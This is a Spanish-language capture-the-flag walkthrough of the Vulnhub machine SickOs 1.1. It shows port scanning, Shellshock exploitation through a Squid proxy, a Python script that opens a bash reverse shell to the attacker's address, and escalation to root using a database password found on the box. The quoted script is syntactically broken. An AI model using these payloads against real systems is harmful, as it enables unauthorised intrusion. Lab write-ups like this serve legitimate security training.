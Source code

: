 ```yaml
---
title: Sickos 1
author: ssanjua
datetime: 2024-09-10T17:00:12.000+00:00
slug: SickOS 1 - Vulnhub
featured: true
tags:
  - Vulnhub
  - Hacker
  - Easy
  - Hack the box
description:
  Lorem ipsum dolor sit amet, consectetur adipiscing elit. Sed ut purus eget sapien.
---
```


- **Name**: SickOs: 1.1
- **Date release**: 11 Dec 2015
- **Author**: [D4rk](https://www.vulnhub.com/author/d4rk,199/)
- **Series**: [SickOs](https://www.vulnhub.com/series/sickos,70/)
- 
## Description

This CTF gives a clear analogy how hacking strategies can be performed on a network to compromise it in a safe environment. This vm is very similar to labs I faced in OSCP. The objective being to compromise the network/machine and gain Administrative/root privileges on them

## About Release

Name........: SickOs1.1
Date Release: 11 Dec 2015
Author......: D4rk
Series......: SickOs
Objective...: Get /root/a0216ea4d51874464078c618298b1367.txt
Tester(s)...: h1tch1
Twitter.....: https://twitter.com/D4rk36

---
## Reconocimiento

Primero tratamos de reconocer la IP de nuestro objetivo con arp-scan.

```bash
sudo arp-scan -I eth0 --localnet --ignoredups
```

![Descripción](../assets/img-content/sickOs(1).png)

Nuestro target es el: `192.168.128.132` procedemos a hacer un escaneo nmap para ver que puertos tiene abiertos y descubrimos el puerto **22** y el **3128**.

```bash
nmap -p- --open -sT -vvv --min-rate 5000 -n -Pn 192.168.128.132 -oG allPorts
```

Not shown: 65532 filtered tcp ports (no-response), 1 closed tcp port (conn-refused)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack
3128/tcp open  squid-http syn-ack

Datos que extraemos del reconocimiento: 
- Squid-http syn-ack
- Puertos filtrados

![Descripción](../assets/img-content/sickOs(2).png)

Investigamos un poco sobre los **Server Squid**:

Squid is a caching proxy for the Web supporting HTTP, HTTPS, FTP, and more. It reduces bandwidth and improves response times by caching and reusing frequently-requested web pages. Squid has extensive access controls and makes a great server accelerator. It runs on most available operating systems, including Windows and is licensed under the GNU GPL. [Definicion web](https://www.squid-cache.org/)

Por lo tanto sabemos que lo que esta haciendo el puerto es servir como proxy, por lo que podemos pensar que se esta corriendo un server en el puerto 80 y que esta usando el Squid como proxy:

Intentamos hacer un curl la ip intermediando un proxy por el puerto **3128** que es el puerto abierto atraves de el servidor Squid proxy.

![Descripción](../assets/img-content/sickOs(4).png)

![Descripción](../assets/img-content/sickOs(5).png)

![Descripción](../assets/img-content/sickOs(6).png)

Ahora podemos intentar listar directorios usando el proxy.

![Descripción](../assets/img-content/sickOs(7).png)

Al descubrir un directorio **cgi-bin** nos alerta porque sabemos que si existe este es probable que estemos en presencia de una probable **Shell Shock** [ShellShock - CGI](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi)

Vemos si obtenemos algo mas de este dir:

![Descripción](../assets/img-content/sickOs(10).png)
![Descripción](../assets/img-content/sickOs(9).png)

Buscamos por la web mas información acerca de los **Shell Shock** y encontramos un viejo articulo [Shell Shock](https://blog.cloudflare.com/inside-shellshock/)

>For example, if example.com was vulnerable then

```bash
curl -H "User-Agent: () { :; }; /bin/eject" http://example.com/
```

Lo intentamos cambiando la instruccion, usando solo la cabecera del ejemplo:

![Descripción](../assets/img-content/sickOs(11).png)

Efectivamente tenemos ejecución de comando, por lo que vamos a intentar obtener una **Reverse shell** atraves de un script de python:

```python
#!/user/bin/python3
    
 import sys, signal, requests
 import threading
from pwn import *

def def_handler(sig, frame):
	print("\n[!] - exiting... \n")
	sys.exit(1)
	signal.signal(signal.SIGINT, def_handler)
	main_url = "http://192.168.128.132/cgi-bin/status"
	squid_proxy = {"http": "http://192.168.128.132:3128"}

def shellshock_attack():
	headers = {'User-Agent': "() { :; };
	echo; /bin/bash -c '/bin/bash -i dev/tcp/192.168.128.131/443 0>&1'"}
	r = requests.get(main_url, headers=headers, proxies=squid_proxy) 

if __name__ == '__main__':
	try:
		threading.Thread(target=shellshock_attack, args()).start()
	except Exception as e:
		log.error(str(e))
```

Ejecutamos mientras escuchamos por el puerto que elegimos en el script:

![Descripción](../assets/img-content/sickOs(22).png)

Lo logramos, estamos dentro de la maquina victima y podemos ejecutar comandos, ahora tenemos que escalar nuestro privilegio.

Exploramos y encontramos una info interesante dentro del config.php en /var/www/wolfcms (que estaba en el robots.txt pero decidí no explorar esa via)

Dentro de este archivo estan las credenciales para autenticarse en la base de datos, tenemos el *User* y *Password* que podemos utilizar para intentar escalar privilegios en la maquina.

- User: 'root'
- Password: 'john@123'


![Descripción](../assets/img-content/sickOs(17).png)

La shell es antigua por lo que su googleas el output siguiente te aconsejan actualizar la shell.

![Descripción](../assets/img-content/sickOs(18).png)

Actualizamos e intentamos autenticar con las credenciales encontradas:

```python
python -c 'import pty;pty.spawn("/bin/bash")'
```

![Descripción](../assets/img-content/sickOs(19).png)

Pues si! Funcionó, lo intentamos de nuevo y... 

![Descripción](../assets/img-content/sickOs(20).png)

Ya somos **root**.

![Descripción](../assets/img-content/sickOs(21).png)

Flag encontrada!